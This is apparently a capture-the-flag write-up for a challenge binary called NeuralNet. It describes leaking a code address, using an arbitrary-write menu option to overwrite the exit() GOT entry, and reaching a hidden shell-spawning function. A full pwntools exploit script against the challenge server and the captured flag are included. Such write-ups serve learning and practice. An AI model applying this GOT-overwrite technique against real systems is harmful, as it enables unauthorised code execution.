






# Christmas Trees - Writeup

---

## Challenge Description



---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```



```bash
$ checksec NeuralNet
```



---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```



- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```



- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```



- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```


- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Leak the Binary Base Address

At startup, the program prints the address of the `predict_outcome` function.
We use this leak to calculate the **base address** of the binary.

### Step 2: Overwrite `exit@GOT`

Using the "Neural Intervention" option (option 3), we perform an **arbitrary write** to overwrite the **GOT entry for `exit()`** with the address of the hidden `unlock_secret_research_data()` function.

### Step 3: Trigger the Payload

We select menu option 4 (Exit), which causes the program to call `exit()`.
Because we overwrote its GOT entry, control is redirected to `unlock_secret_research_data()`, which executes `system("/bin/sh")`.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template NeuralNet --host ctf.mf.grsu.by --port 9076
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'NeuralNet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9076)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# RUNPATH:    b'./'
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.recvuntil(b'Prediction module address (predict_outcome): ')
exe.address = int(io.recvline().strip(),16) - exe.symbols['predict_outcome']
log.success(f"exe.address : {hex(exe.address)}")

exit_got = exe.got['exit']
ret2win = exe.symbols['unlock_secret_research_data']
io.sendline(b'3')
io.sendline(hex(exit_got).encode())
io.sendline(hex(ret2win).encode())
io.sendline(b'4')
io.sendline(b'cat flag.txt')
io.recvuntil(b"You've gained root access to the main dataset server.")
io.recvline()
flag = io.recvline().strip()
log.success(f"FLAG : {flag.decode()}")

```

---

## Exploit Output


---

## Vulnerability Summary

- The binary **leaks a code address** (`predict_outcome`) on startup, allowing us to **calculate the binary base address**.
- The **"Neural Intervention"** feature provides an **arbitrary write primitive** via user-controlled memory writes.
- By overwriting the **GOT entry of `exit()`** with the address of `unlock_secret_research_data()`, we can redirect execution and spawn a shell.

---

## Flag

```
grodno{p3R3D08UchIL_n3ir053t_prY4M0_v_G0T}
```
